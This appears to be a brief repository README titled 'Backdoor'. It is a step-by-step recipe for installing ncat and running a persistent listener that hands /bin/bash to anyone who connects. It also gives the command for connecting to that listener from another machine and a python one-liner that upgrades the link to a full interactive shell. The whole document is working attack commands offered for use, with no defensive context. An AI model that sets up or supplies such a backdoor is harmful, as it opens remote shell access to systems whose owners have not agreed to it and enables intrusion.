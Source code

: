 # Backdoor 
## Install ncat on the local box
### Apt-get (Install)
```
sudo apt-get update
sudo apt-get -y install ncat
```
### Apt (Install)
```
sudo apt update
sudo apt -y install ncat
```

### Aptitude (Install)
```
sudo aptitude update
sudo aptitude -y install ncat
```

## Local box that will be backdoored into 
```
ncat -k -nvlp <port> -e "/bin/bash" --allow <ip's go here>
```

## Box that will backdoor into local machine 
```
ncat -nv <ip address of local box> <port>
```

# Getting a complete shell!
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


### If ncat needs to be deleated
```
sudo apt-get -y autoremove --purge ncat
```
